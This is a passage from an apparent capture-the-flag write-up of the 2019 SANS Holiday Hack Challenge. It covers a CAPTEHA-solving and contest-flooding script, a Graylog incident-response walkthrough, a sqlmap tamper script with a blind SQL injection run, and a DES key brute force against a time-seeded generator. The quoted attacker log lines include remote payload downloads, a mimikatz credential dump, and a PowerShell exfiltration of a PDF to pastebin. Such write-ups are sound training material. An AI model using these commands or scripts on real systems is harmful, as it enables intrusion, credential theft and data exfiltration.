while q.qsize() < len(b64_images):
time.sleep(0.001)
# getting a list of all threads returned results
prediction_results = [q.get() for x in range(q.qsize())]
# do something with our results... Like print them to the screen.
matches = []
for prediction in prediction_results:
print('TensorFlow Predicted {img_uuid} is a {prediction} with {percent:.2%} Accuracy'.format(**prediction))
if prediction["prediction"] in challenge_image_types:
matches.append(prediction["img_uuid"])
# This should be JUST a csv list image uuids ML predicted to match the challenge_image_type .
final_answer = ','.join(matches)
print("Desired image types:", challenge_image_types)
print("Matches:", matches)
print("Time taken:", time.perf_counter() - start_time)
json_resp = json.loads(s.post("{}api/capteha/submit".format(url), data={'answer': final_answer}).text)
if not json_resp['request']:
# If it fails just run again. ML might get one wrong occasionally
print('FAILED MACHINE LEARNING GUESS')
print('--------------------\nOur ML Guess:\n--------------------\n{}'.format(final_answer))
print('--------------------\nServer Response:\n--------------------\n{}'.format(json_resp['data']))
sys.exit(1)
print('CAPTEHA Solved!')
# If we get to here, we are successful and can submit a bunch of entries till we win
userinfo = {
'name': 'Krampus Hollyfeld',
'email': yourREALemailAddress,
'age': 180,
'about': "Cause they're so flippin yummy!",
'favorites': 'thickmints'
}
# If we win the once-per minute drawing, it will tell us we were emailed.
# Should be no more than 200 times before we win. If more, somethings wrong.
entry_response = ''
entry_count = 1
while yourREALemailAddress not in entry_response and entry_count < 200:
print('Submitting lots of entries until we win the contest! Entry #{}'.format(entry_count))
entry_response = s.post("{}api/entry".format(url), data=userinfo).text
entry_count += 1
print(entry_response)
if __name__ == "__main__":
main()
It was quite a relief when the script was up and running, but disappointment followed:
prediction was correct, but too slow! It took 17-20 seconds to predict all 100 images,
but elves can do it in 5! Victory over the threat of machine 'intelligence'? Not
quite. A comment in retrain.py helped understand the issue:
`--tfhub_module` flag with a
Mobilenet model There are different Mobilenet models to choose from, with a variety of file size and latency options.
- The first number can be '100', '075', '050', or '025' to control the number of neurons (activations of hidden layers); the number of weights (and hence to some extent the file size and speed) shrinks with the square of that fraction.
- The second number is the input image size. You can choose '224', '192', '160', or '128', with smaller sizes giving faster speeds.
To check the speed difference, I compared the default inception model against mobilenet_v1_025_224 on the example dataset:
https://tfhub.dev/google/imagenet/inception_v3/feature_vector/3 (default model)
TensorFlow Predicted unknown_images/1.png is a Apple with 99.98% Accuracy
TensorFlow Predicted unknown_images/3.png is a Banana with 100.00% Accuracy
TensorFlow Predicted unknown_images/4.png is a Banana with 100.00% Accuracy
TensorFlow Predicted unknown_images/2.png is a Apple with 99.97% Accuracy
Time taken: 5.6095273
https://tfhub.dev/google/imagenet/mobilenet_v1_025_224/feature_vector/3
TensorFlow Predicted unknown_images/1.png is a Apple with 99.99% Accuracy
TensorFlow Predicted unknown_images/2.png is a Apple with 100.00% Accuracy
TensorFlow Predicted unknown_images/4.png is a Banana with 100.00% Accuracy
TensorFlow Predicted unknown_images/3.png is a Banana with 99.91% Accuracy
Time taken: 0.4748209
In the end, I decided to try the even smaller model mobilenet_v1_050_192.
For the training code, no change is required, just an extra flag on
the command line: python retrain.py --image_dir ../capteha_images/ --tfhub_module
https://tfhub.dev/google/imagenet/mobilenet_v1_050_192/feature_vector/3.
The API interface required an adaptation of the input height and width,
highlighted in the code above. This managed to beat the capteha in time,
and after 102 retries Krampus was a winner!
...<snip>...
Submitting lots of entries until we win the contest! Entry #95
Submitting lots of entries until we win the contest! Entry #96
Submitting lots of entries until we win the contest! Entry #97
Submitting lots of entries until we win the contest! Entry #98
Submitting lots of entries until we win the contest! Entry #99
Submitting lots of entries until we win the contest! Entry #100
Submitting lots of entries until we win the contest! Entry #101
Submitting lots of entries until we win the contest! Entry #102
{"data":"<h2 id=\"result_header\"> Entries for email address oh_no@dream.on
no longer accepted as our systems show your email was already randomly selected
as a winner! Go check your email to get your winning code. Please allow up to
3-5 minutes for the email to arrive in your inbox or check your spam
filter settings. <br><br> Congratulations and Happy Holidays!</h2>","request":true}

I believe I have made a new friend, who will no doubt soon rival Santa in girth. AND I can now use the steam tunnels to get around faster!
To help you, I have flashed the firmware in your badge to unlock a useful new feature: magical teleportation through the steam tunnels.
As for those scraps of paper, I scanned those and put the images on my server. I then threw the paper away. Unfortunately, I managed to lock out my account on the server. Hey! You’ve got some great skills. Would you please hack into my system and retrieve the scans? I give you permission to hack into it, solving Objective 9 in your badge. And, as long as you're traveling around, be sure to solve any other challenges you happen across.
Objective 9: Retrieve Scraps of Paper from Server
Gain access to the data on the Student Portal server and retrieve the paper scraps hosted there. What is the name of Santa's cutting-edge sleigh guidance system? For hints on achieving this objective, please visit the dorm and talk with Pepper Minstix.
I) Help Pepper Minstix
Have you used Graylog before? It is a log management system based on Elasticsearch, MongoDB, and Scala. Some Elf U computers were hacked, and I've been tasked with performing incident response. Can you help me fill out the incident response report using our instance of Graylog?
It's probably helpful if you know a few things about Graylog. Event IDs and Sysmon are important too. Have you spent time with those? Don't worry - I'm sure you can figure this all out for me!
Click on the All messages Link to access the Graylog search interface! Make sure you are searching in all messages! The Elf U Graylog server has an integrated incident response reporting system. Just mouse-over the box in the lower-right corner.
Login with the username
elfustudent and password elfustudent.
Graylog is an alternative to Splunk from Objective 6, so it is time for dunnykin diving again. It is based on MongoDB, a non-relational NoSQL database, so that searching has quite different characteristics from cassical relational searches.
Question 1:
Minty CandyCane reported some weird activity on his computer after
he clicked on a link in Firefox for a cookie recipe and downloaded a file.
What is the full-path + filename of the first malicious file downloaded by Minty?
My first attempt was to try the obvious and search for cookie recipe,
which immediately gave me the answer to question 9. Beginner's luck!
Having no deep knowledge about sysmon and event IDs (the hint was strangely empty),
I tried my luck with a variety of search terms from what is known, namely
- Minty Candycane
- Cookie recipe
- Link in Firefox
The search term minty AND cookie* AND firefox worked nicely and
resulted in a single hit: a firefox process downloading an executable file
of cookie recipes! Saves on cooking, I suppose ...
File creation time changed
CreationUtcTime
2019-11-19T13:23:45.428Z
EventID
2
ProcessId
2516
ProcessImage
C:\Program Files\Mozilla Firefox\firefox.exe
TargetFilename
C:\Users\minty\Downloads\cookie_recipe.exe
source
elfu-res-wks1
timestamp
2019-11-19 05:28:33.000 +00:00
We can find this searching for sysmon file creation event id 2 with a process named firefox.exe and not junk .temp files. We can use regular expressions to include or exclude patterns:
TargetFilename:/.+\.pdf/
- Look at the "all messages" stream, and show the messages for all time (not just the default last 5 mins). Browse one event to see what fields exist in the dataset.
- Request quick values for the log type field. This gives a nice summary of the log sources comprising the dataset.
- If we are looking for a malicious file download, start by searching Sysmon type 2 events, which are created when a file is modified. Use the magnifying glass next to Sysmon to show all Sysmon events, and examien the first event to get the correct name for Event ID, to add to the query string.
-
Tag the TargetFilename field to show that as part of the summary. Reduce the number of entries
by insisting that the path contains the term download, because downloaded files are
most often placed in the downloads folder. Complete search term:
WindowsLogType:Microsoft\-Windows\-Sysmon\/Operational AND EventID:2 AND TargetFileName:/.*Download.*
- Only two events of interest remain: C:\Users\Minty\Downloads\cookie_recipe.exe and C:\Users\Minty\Downloads\cookie_recipe2.exe. The latter was created with PowerShell, the former with Firefox (look for ProcessImage).
Question 2:
The malicious file downloaded and executed by Minty gave the attacker
remote access to his machine. What was the ip:port the malicious file
connected to first?
A naive search for the evil executable cookie_recipe.exe gives 23 hits.
Choosing the fields DestinationIp and DestinationPort for the results table
immediately leads to the event of interest: Network connection detected
Network connection detected
DestinationHostname
DEFANELF
DestinationIp
192.168.247.175
DestinationPort
4444
EventID
3
ProcessId
5256
ProcessImage
C:\Users\minty\Downloads\cookie_recipe.exe
Protocol
tcp
timestamp
2019-11-19 05:24:04.000 +00:00
We can pivot off the answer to our first question using the binary path as our ProcessImage.
Question 3:
What was the first command executed by the attacker?
(answer is a single word)
From the previous search, one can see that cookie_recipe.exe starts
a sequence of child processes. To investigate what
happens next, I searched for events with cookie_recipe.exe as parent
process: ParentProcessImage:C\:\\Users\\minty\\Downloads\\cookie_recipe.exe.
The search term is automatically generated by clicking the + sign to the right
of the ParentProcessImage field. As one can see, the attack proceeded by using PowerShell
to invoke a series of commands:
| timestamp | command executed |
|---|---|
| 2019-11-19 05:24:02.000 | <start of execution> |
| 2019-11-19 05:24:15.000 | whoami |
| 2019-11-19 05:24:45.000 | ls |
| 2019-11-19 05:25:40.000 | ls C:\ |
| 2019-11-19 05:25:50.000 | sc query type= service |
| 2019-11-19 05:26:02.000 | Get-Service |
| 2019-11-19 05:26:45.000 | cmd /c sc query type= service |
| 2019-11-19 05:28:25.000 | whoami |
| 2019-11-19 05:28:32.000 | Invoke-WebRequest -Uri http://192.168.247.175/cookie_recipe2.exe -OutFile cookie_recipe2.exe |
| 2019-11-19 05:29:10.000 | ls |
| 2019-11-19 05:29:20.000 | ./cookie_recipe2.exe |
| 2019-11-19 05:29:27.000 | ls |
| 2019-11-19 05:31:02.000 | sc start webexservice a software-update 1 wmic process call create "cmd.exe /c C:\Users\minty\Downloads\cookie_recipe2.exe" |
| 2019-11-19 05:31:55.000 | cmd.exe /c sc start webexservice a software-update 1 wmic process call create "cmd.exe /c C:\Users\minty\Downloads\cookie_recipe2.exe" |
| 2019-11-19 05:32:13.000 | ls |
| 2019-11-19 05:32:43.000 | cmd.exe /c sc start webexservice a software-update 1 C:\Users\minty\Downloads\cookie_recipe2.exe |
| 2019-11-19 06:09:36.000 | exit |
Since all commands (sysmon event id 1) by the attacker are initially running through the cookie_recipe.exe binary, we can set its full-path as our ParentProcessImage to find child processes it creates sorting on timestamp.
Question 4:
What is the one-word service name the attacker used to escalate privileges?
Continuing along the list of commands invoked by cookie_recipe.exe, a second executable cookie_recipe2.exe is downloaded and started in the context of webexservice. This is actually the footprint of an exploit for privilege escalation known as WebExec. Curiously enough, this exploit was co-discovered by Jeff McJunkin from CounterHack :-)
Continuing on using the cookie_recipe.exe binary as our ParentProcessImage, we should see some more commands later on related to a service.
Question 5:
What is the file-path + filename of the binary ran by the attacker to dump
credentials?
Same procedure as before: I looked for events parented by cookie_recipe2.exe. This time, only the major commands are listed. After privilege escalation, the Mimikatz toolsuit is downloaded and executed (root privileges are required for that). Mimikatz is a famous and very effective open software tool for extracting credentials from a system. Locally, it is stored as C:\cookie.exe to delay detection.
| timestamp | command executed |
|---|---|
| 2019-11-19 05:29:20.000 | <first execution attempt> |
| 2019-11-19 05:29:24.000 | whoami |
| 2019-11-19 05:32:43.000 | <second attempt after privilege escalation> |
| 2019-11-19 05:32:47.000 | whoami |
| 2019-11-19 05:41:17.000 | Invoke-WebRequest -Uri http://192.168.247.175/mimikatz.exe -OutFile C:\cookie.exe |
| 2019-11-19 05:41:47.000 | Invoke-WebRequest -Uri http://192.168.247.175/mimilib.dll -OutFile C:\mimilib.dll |
| 2019-11-19 05:42:08.000 | Invoke-WebRequest -Uri http://192.168.247.175/mimilove.exe -OutFile C:\cookielove.exe |
| 2019-11-19 05:42:26.000 | Invoke-WebRequest -Uri http://192.168.247.175/mimidrv.sys -OutFile C:\mimidrv.sys |
| 2019-11-19 05:44:36.000 | C:\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit |
| 2019-11-19 05:45:14.000 | C:\cookie.exe "privilege::debug" "sekurlsa::logonpasswords" exit |
| 2019-11-19 06:09:29.000 | exit |
The attacker elevates privileges using the vulnerable webexservice to run a file called cookie_recipe2.exe. Let's use this binary path in our ParentProcessImage search.
Question 6:
The attacker pivoted to another workstation using credentials gained from
Minty's computer. Which account name was used to pivot to another machine?
A simple-minded search for the IP address 192.168.247.175 of the attacker
hits 366 events, too much for comfort. Instead, I peeked ahead and saw from question 7
that a remote desktop connection was made. According to this
list of logon types,
remote desktop means logon type 10. A search for LogonType:10 hits 4 events.
Only one of these lists an AccountName and indicates a successful logon, with
Event ID 4624. The other three were unsuccessful (Event Id 4625). This answers
both questions 6 and 7.
source:elfu\-res\-wks2 AND EventID:4624
Successful Logon
AccountDomain
NORTHPOLE
AccountName
alabaster
AuthenticationPackage
Negotiate
DestinationHostname
elfu-res-wks2
EventID
4624
LogonType
10
SourceHostName
ELFU-RES-WKS2
SourceNetworkAddress
192.168.247.175
source
elfu-res-wks2
timestamp
2019-11-19 06:04:28.000 +00:00
Windows Event Id 4624 is generated when a user network logon occurs successfully. We can also filter on the attacker's IP using SourceNetworkAddress.
Question 7:
What is the time ( HH:MM:SS ) the attacker makes a Remote Desktop connection
to another machine?
LogonType 10 is used for successful network connections using the RDP client.
Question 8:
The attacker navigates the file system of a third host using their Remote
Desktop Connection to the second host.
What is the SourceHostName,DestinationHostname,LogonType of this connection?
(submit in that order as csv)
If the attacker uses remote desktop to get into a third system, he will trigger a
successful logon event (ID 4624 as before). The SourceHostName is already known,
namely ELFU-RES-WKS2 from question 6. A search for
SourceHostName:ELFU-RES-WKS2 AND EventID:4624 results in 6 hits. 4 of
them go to a different host elfu-res-wks3, all with LogonType 3 (from the network)
Successful Logon
AccountName
alabaster
AuthenticationPackage
NTLM
DestinationHostname
elfu-res-wks3
EventID
4624
LogonProcess
NtLmSsp
LogonType
3
SourceHostName
ELFU-RES-WKS2
SourceNetworkAddress
192.168.247.176
source
elfu-res-wks3
timestamp
2019-11-19 06:07:22.000 +00:00
The attacker has GUI access to workstation 2 via RDP. They likely use this GUI connection to access the file system of of workstation 3 using explorer.exe via UNC file paths (which is why we don't see any cmd.exe or powershell.exe process creates). However, we still see the successful network authentication for this with event id 4624 and logon type 3.
Question 9:
What is the full-path + filename of the secret research document after being
transferred from the third host to the second host?
As admitted in the beginning, I got this straight away through sheer luck by
searching for cookie recipe. This returns a single event,
representing a powershell command. It does not show how the secret
document was transferred from the third host, but instead how it is being
spirited away into a pastebin. Its CommandLine:
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
Invoke-WebRequest -Uri https://pastebin.com/post.php -Method POST -Body @{
"submit_hidden" = "submit_hidden";
"paste_code" = $([Convert]::ToBase64String([IO.File]::ReadAllBytes(
"C:\Users\alabaster\Desktop\super_secret_elfu_research.pdf")));
"paste_format" = "1";
"paste_expire_date" = "N";
"paste_private" = "0";
"paste_name"="cookie recipe" }
We can look for sysmon file creation event id of 2 with a source of workstation 2. We can also use regex to filter out overly common file paths using something like:
AND NOT TargetFilename:/.+AppData.+/
Question 10:
What is the IPv4 address (as found in logs) the secret research document
was exfiltrated to?
Knowing the secret PDF went to a pastbin, I simply searched for
pastebin.com. Two events were found. One of them is the
event from question 9, and the other gives a DestinationIp of 104.22.3.84.
We can look for the original document in CommandLine using regex.
When we do that, we see a long a long PowerShell command using Invoke-Webrequest to a remote URL of https://pastebin.com/post.php.
We can pivot off of this information to look for a sysmon network connection id of 3 with a source of elfu-res-wks2 and DestinationHostname of pastebin.com.
II) Retrieve Scraps of Paper from Server
The ELFU student portal at https://studentportal.elfu.org/ has two forms, one to apply as a student, and another to check application status. Both forms use an intermediate token request to stop automatic tools. This is done by some JavaScript:
function submitApplication() {
console.log("Submitting");
elfSign();
document.getElementById("check").submit();
}
function elfSign() {
var s = document.getElementById("token");
const Http = new XMLHttpRequest();
const url='/validator.php';
Http.open("GET", url, false);
Http.send(null);
if (Http.status === 200) {
console.log(Http.responseText);
s.value = Http.responseText;
}
}
Before submitting the request, the function elfSign is called which asks for a new token from validator.php. The hidden field "token" is then updated with the return value, which is a (mostly) changing base64 encoded decimal string:
MTAwOTM1NDc1OTA0MTU3NzExNjgxMTEwMDkzNTQ3NS45MDQ=_MTI5MTk3NDA5MTU3MTIzMjI5OTM1MjI4LjkyOA== → 1009354759041577116811100935475.904_129197409157123229935228.928
This can be verified with an intermediate proxy such as ZAP, but tampering with the payload is impossible without some automation because the token times out rather quickly.
With a page like this, SQLi on one of the forms is the natural thing to try. The hands-on approach now would be to run the "check application" page from python and try several SQLi options. But SQLmap sounds so much more fun ... this is another new tool for me, and a really excellent one at that!
elf@elf.com' INTO DUMPFILE "/temp/test.txt"; --
after bypassing the restriction to email addresses. However, this only leads to
an access denied error showing insufficient privileges to write. Another nicely
crafted dead end. We need to find the database structure, which requires blind
injection (because there are no useful output fields to show query results).
SQLmap cannot run "out of the box" because of the request token mechanism described above. This needs to be done by a tamper script, which is used by SQLmap to modify the request before sending it:
#!/usr/bin/env python
"""
Tamper script for HHC19:
request token and add to data
"""
import requests
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL
def dependencies():
pass
def tamper(payload, **kwargs):
# remplace spaces in payload, instead or urlencode
retVal = payload.replace(' ', '%20')
# add token parameter
token_req = requests.get("https://studentportal.elfu.org/validator.php")
token = '&token=' + token_req.text
return retVal + token
I decided to try the "check application" form for my SQLi attempt because
of its simple GET request structure.
After adding this script (called hhc19.py) to the tamper folder
in the SQLmap directory, running SQLmap seemed to work, but produced no
results. It seems that the server is rather specific
about its URLs. Trials revealed that spaces have to be URL encoded,
whereas other URL encoding is not tolerated. This has to be
taken care of in the tamper script, and SQLmap needs to be told not to
URLencode with the option --skip-urlencode. The successful
invocation was
python sqlmap.py -u https://studentportal.elfu.org/application-check.php?elfmail=test
--tamper=hhc19
--skip-urlencode
sqlmap identified the following injection point(s) with a total of 273 HTTP(s) requests:
---
Parameter: elfmail (GET)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: elfmail=test' AND 3093=3093 AND 'xkOA'='xkOA
Type: error-based
Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
Payload: elfmail=test' AND (SELECT 9181 FROM(SELECT COUNT(*),CONCAT(0x71767a6b71,(SELECT (ELT(9181=9181,1))),0x717a627171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'Zgcg'='Zgcg
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: elfmail=test' AND (SELECT 3385 FROM (SELECT(SLEEP(5)))rtEa) AND 'Thdf'='Thdf
Blind injection it is! But finding the vulnerability is only the first step. Extracting database structure and contents is incredibly easy with SQLmap, one simply repeats the previous invocation with additional options. The discovery process is not repeated, results are kept in a cache.
<basic invocation> --dbs available databases [2]: [*] elfu [*] information_schema <basic invocation> -D elfu --tables Database: elfu [3 tables] +--------------+ | applications | | krampus | | students | +--------------+ <basic invocation> -D elfu -T krampus --columns Database: elfu Table: krampus [2 columns] +--------+-------------+ | Column | Type | +--------+-------------+ | path | varchar(30) | | id | int(11) | +--------+-------------+ <basic invocation> -D elfu -T krampus --dump Database: elfu Table: krampus [6 entries] +----+-----------------------+ | id | path | +----+-----------------------+ | 1 | /krampus/0f5f510e.png | | 2 | /krampus/1cc7e121.png | | 3 | /krampus/439f15e6.png | | 4 | /krampus/667d6896.png | | 5 | /krampus/adb798ca.png | | 6 | /krampus/ba417715.png | +----+-----------------------+
The six paper scrap images can now be downloaded from studentportal.elfu.org with the paths given by the above table. I used GIMP to load them into different layers, then moved them around to complete the puzzle.
How absolutely evil!!! So Santas brand new sleigh guidance system, the Super Sled-o-matic, is to be attacked. What a pity that the piece with the name of the author is missing, probably eaten by hungry turtle doves. Strange, though, this squiggle on the page almost looks like a tooth ... Maybe Krampus knows what to do about this.
Objective 10: Recover Cleartext Document
The Elfscrow Crypto tool is a vital asset used at Elf University for encrypting SUPER SECRET documents. We can't send you the source, but we do have debug symbols that you can use.
Recover the plaintext content for this encrypted document. We know that it was encrypted on December 6, 2019, between 7pm and 9pm UTC.
What is the middle line on the cover page? (Hint: it's five words)
For hints on achieving this objective, please visit the NetWars room and talk with Holly Evergreen.
I) Help Holly Evergreen
I tried lsof -i, but that tool doesn't seem to be installed. I think there's a tool like ps that'll help too. What are the flags I need? Either way, you'll need to know a teensy bit of Mongo once you're in. Pretty please find us the solution to the quiz!
The first hurdle is getting into MongoDB by starting a mongo shell, as described
here. The command is
mongo --port <pt>, where pt is the port on which the MongoDB
server is listening. One way to find out is lsof -i, which lists
which services are listening on which ports. However, the command seems not to be
installed.
Some googling around shows that ps and netstat have helpful options. Here are the results from both:
elf@0e894bf76469:~$ ps -ef UID PID PPID C STIME TTY TIME CMD elf 1 0 0 22:22 pts/0 00:00:00 /bin/bash mongo 9 1 0 22:22 ? 00:00:03 /usr/bin/mongod --quiet --fork --port 12121 --bind_ip 127.0.0.1 --logpath=/tmp/mongo.log elf 48 1 0 22:36 pts/0 00:00:00 ps -ef elf@0e894bf76469:~$ netstat -ltnp (No info could be read for "-p": geteuid()=1001 but you should be root.) Active Internet connections (only servers) Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name tcp 0 0 127.0.0.1:12121 0.0.0.0:* LISTEN -
Starting the mongo shell is now possible
elf@0e894bf76469:~$ mongo --port 12121
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:12121/
MongoDB server version: 3.6.3
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
http://docs.mongodb.org/
Questions? Try the support group
http://groups.google.com/group/mongodb-user
Server has startup warnings:
2020-01-11T22:22:16.260+0000 I CONTROL [initandlisten]
2020-01-11T22:22:16.260+0000 I CONTROL [initandlisten] ** WARNING: Access control is not enabled for the database.
2020-01-11T22:22:16.260+0000 I CONTROL [initandlisten] ** Read and write access to data and configuration is unrestricted.
2020-01-11T22:22:16.260+0000 I CONTROL [initandlisten]
2020-01-11T22:22:16.260+0000 I CONTROL [initandlisten]
2020-01-11T22:22:16.260+0000 I CONTROL [initandlisten] ** WARNING: /sys/kernel/mm/transparent_hugepage/enabled is 'always'.
2020-01-11T22:22:16.260+0000 I CONTROL [initandlisten] ** We suggest setting it to 'never'
2020-01-11T22:22:16.260+0000 I CONTROL [initandlisten]
>
In MongoDB, the data is organized in different databases, each of which can have several collections. A collection is essentially a table of documents, which can be completely different: no common schema or common type is enforced. There are 4 databases in the system:
> show dbs
admin 0.000GB
elfu 0.000GB
local 0.000GB
test 0.000GB
To see the collections in a database, use use <db name>
followed by show collections.
| database | collection |
|---|---|
| admin | system.version |
| elfu | bait chum line metadata solution system.js tackle tincan |
| local | startup_log |
| test | redherring |
To list the objects in a collection foo, the command is db.foo.find().
Collection solution in elfu just begs to be looked at. All the other
collections can be investigated, but I didn't find anything interesting except fish.
Just like the terminal opening screen said ...
> use elfu switched to db elfu > db.solution.find() { "_id" : "You did good! Just run the command between the stars: ** db.loadServerScripts();displaySolution(); **" } > db.loadServerScripts();displaySolution(); . __/ __ / /.'o'. .o.'. .'.'o'. o'.o.'.*. .'.o.'.'.*. .o.'.o.'.o.'. [_____] ___/ Congratulations!!
II) Recover Cleartext Document
So ElfU has its own homemade encryption tool, elfscrow.exe. What could possibly go wrong ... simply running it gives usage instructions:
> ./elfscrow.exe
Welcome to ElfScrow V1.01, the only encryption trusted by Santa!
* WARNING: You're reading from stdin. That only partially works, use at your own risk!
** Please pick --encrypt or --decrypt!
Are you encrypting a file? Try --encrypt! For example:
.\elfscrow.exe --encrypt <infile> <outfile>
You'll be given a secret ID. Keep it safe! The only way to get the file
back is to use that secret ID to decrypt it, like this:
.\elfscrow.exe --decrypt --id=<secret_id> <infile> <outfile>
You can optionally pass --insecure to use unencrypted HTTP. But if you
do that, you'll be vulnerable to packet sniffers such as Wireshark that
could potentially snoop on your traffic to figure out what's going on!
> ./elfscrow.exe --encrypt infile outfile
Welcome to ElfScrow V1.01, the only encryption trusted by Santa!
Our miniature elves are putting together random bits for your secret key!
Seed = 1577528082
Generated an encryption key: b79fab2de37f1ddf (length: 8)
Elfscrowing your key...
Elfscrowing the key to: elfscrow.elfu.org/api/store
Your secret id is fa9e251b-7d80-4f29-bcd0-7d009c8ff7b5 - Santa Says, don't share that key with anybody!
File successfully encrypted!
++=====================++
|| ||
|| ELF-SCROW ||
|| ||
|| ||
|| ||
|| O ||
|| | ||
|| | (O)- ||
|| | ||
|| | ||
|| ||
|| ||
|| ||
|| ||
|| ||
++=====================++
The tool is using a key escrow system to handle keys. Definition by Wikipedia:
After encryption, the key is sent to an escrow server, and the receiver of a message can access the key there if he presents the correct secret ID. I find it difficult to understand the use of escrow here. Instead of the key, an ID has to be shared secret between sender and receiver. Unless the escrow server is not openly accessible, this does not change the security of the system. Perhaps Santa is the nosey sort ... but if Santa had special access to all the keys on the Elfscrow server, he wouldn't need me to decrypt the message.
To determine the encryption method, the infile is loaded with ASCII strings of different length, and the effect on the outfile is observed, as explained in the recommended talk.
- key size: 8 byte
- block size: 8 byte
- blocks are different for periodic input
So a likely candidate is DES in CBC mode, with hardcoded or zero IV. To find out more, I decompiled the executable with IDA, including the debug symbols provided in elfscrow.dbg to make the code more readable.
A good first step is to check the text messages in the .rdata memory segment
starting at 0x404120. Some messages are quite revealing.
0x4047D8 CryptImportKey failed for DES-CBC key
confirms the initial observations regarding cryptographic method. To verify
that there are no additional tricks, I checked the elfscrow encryption of a test file
against an online DES encrypter (e.g. cyberchef) with IV=0 and got identical cyphertext.
Test:
Seed: 1577568020
key: 2cfdfb1d1409c91f
PT: 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
CT: 41 9C 5A 2B B0 40 D1 95 F2 84 6B CB 0D 2C 3A 40 3B 57 1E 6D 2D 1B 06 40
DES is no longer considered secure, but that doesn't mean it is possible to break without massive resources. We have an encrypted message without key, so there are two options: break into the escrow server, or find a flaw in key generation. Key generation is handled by the subroutine generate_key at 0x401DF0.

First, the subroutine time is called to generate a seed. Internally,
this calls _time64, which is the unix system (or epoch) time in seconds sincs 1.1.1970.
The subroutine super_secure_srand prints this seed (very convenient!) and
copies it to the variable state at 0x40602C.
The 8 byte key is generated one byte at a time by repeatedly calling the subroutine
super_secure_random, which performs an algebraic operation on the variable
state.. By searching for the constants used, this turns out to be the
pseudo random number generator used by Visual C++.

We are in luck: the key generator is seeded by current time, which makes it predictable. To verify the key generation process, I wrote a python script:
def gen_key(key_seed):
state = key_seed
_key = 0
for key_pos in range(8):
state = state * 0x343FD + 0x269EC3
key_byte = (state >> 0x10) & 0xFF
_key = _key * 0x100 + key_byte
return _key
seed = 1577528082
key = gen_key(seed).to_bytes(8, byteorder='big')
print("Seed: {}\nKey: {}".format(seed, hexlify(key)))
Starting with the seed 1577528082, the generated key b79fab2de37f1ddf is the same as the one generated by elfscrow.exe above. Check!
Now that the encryption method has been confirmed, lets abuse it. We know that the encrypted file was generated on December 6, 2019, between 7pm and 9pm UTC. This means that the seed must lie in the range 1575658800 to 1575666000. To break the cipher, one simply has to try out all keys from this range of seeds until the file decrypts to something sensible. Because the filename ends in .pdf.enc, the original is probably PDF, and so "something sensible" means starting with "%PDF". In order to save time, I only used the initial 16 bytes of the encrypted file in the script below:
from Cryptodome.Cipher import DES
from Cryptodome.Util.Padding import pad, unpad
from binascii import hexlify
from calendar import timegm
import time
import datetime
def gen_key(key_seed):
state = key_seed
_key = 0
for key_pos in range(8):
state = state * 0x343FD + 0x269EC3
key_byte = (state >> 0x10) & 0xFF
_key = _key * 0x100 + key_byte
return _key
# find timestamps for starting and ending dates
d_start = datetime.datetime(2019, 12, 6, 19)
d_end = datetime.datetime(2019, 12, 6, 21)
t_start = timegm(d_start.timetuple())
t_end = timegm(d_end.timetuple())
for seed in range(t_start, t_end):
key = gen_key(seed).to_bytes(8, byteorder='big')
# print("Seed: {}\nKey: {}".format(seed, hexlify(key)))
ct = b'\x5D\xBD\xCE\xDC\x49\x4A\x74\x43\xF5\x77\xF2\x7F\x84\x05\x14\x1A'
cipher = DES.new(key, DES.MODE_CBC, iv=(0).to_bytes(8, byteorder='big'))
pt = cipher.decrypt(ct)
if pt.startswith(b'%PDF'):
print(pt)
print("Seed: {}\nKey: {}".format(seed, hexlify(key)))
The output:
b'%PDF-1.3\n%\xc4\xe5\xf2\xe5\xeb\xa7'
Seed: 1575663650
Key: b'b5ad6a321240fbec'
We have a key and can decrypt the mystery file by conventional means (elfscrow will not work, because we have no ID for the server, "only" the key). Out comes ElfUResearchLabsSuperSledOMaticQuickStartGuideV1.2.pdf, an 8 page guide on the Super Sled-O-Matic. Lets quickly head to the sleigh shop!
Objective 11: Open the Sleigh Shop Door
Visit Shinny Upatree in the Student Union and help solve their problem. What is written on the paper you retrieve for Shinny? For hints on achieving this objective, please visit the Student Union and talk with Kent Tinseltooth.
I) Kent Tinseltooth
Oh sorry, I'm Kent Tinseltooth. My Smart Braces are acting up. Do... Do you ever get the feeling you can hear things? Like, voices? I know, I sound crazy, but ever since I got these... Oh!
Do you think you could take a look at my Smart Braces terminal? I'll bet you can keep other students out of my head, so to speak. It might just take a bit of Iptables work.
Oh no! Kents IOT braces have been hacked, and now they speak to him. Who could possibly be evil enough to do such a thing? We won't find out until later, but can try to help Kent in the meantime. His latest dialogue is quite ominous:
Inner Voice: Kent. Kent. Wake up, Kent.
Inner Voice: I'm talking to you, Kent.
Kent: Who said that? I must be going insane.
Kent: Am I?
Inner Voice: That remains to be seen, Kent. But we are having a conversation.
Inner Voice: This is Santa, Kent, and you've been a very naughty boy.
Kent: Alright! Who is this?! Holly? Minty? Alabaster?
Inner Voice: I am known by many names. I am the boss of the North Pole.
Turn to me and be hired after graduation.
Kent: Oh, sure.
Inner Voice: Cut the candy, Kent, you've built an automated,
machine-learning, sleigh device.
Kent: How did you know that?
Inner Voice: I'm Santa - I know everything.
Kent: Oh. Kringle. *sigh*
Inner Voice: That's right, Kent. Where is the sleigh device now?
Kent: I can't tell you.
Inner Voice: How would you like to intern for the rest of time?
Kent: Please no, they're testing it at srf.elfu.org using
default creds, but I don't know more. It's classified.
Inner Voice: Very good Kent, that's all I needed to know.
Kent: I thought you knew everything?
Inner Voice: Nevermind that. I want you to think about what you've
researched and studied. From now on, stop playing with
your teeth, and floss more.
*Inner Voice Goes Silent*
Kent: Oh no, I sure hope that voice was Santa's.
Kent: I suspect someone may have hacked into my IOT teeth braces.
Kent: I must have forgotten to configure the firewall...
Kent: Please review /home/elfuuser/IOTteethBraces.md and
help me configure the firewall.
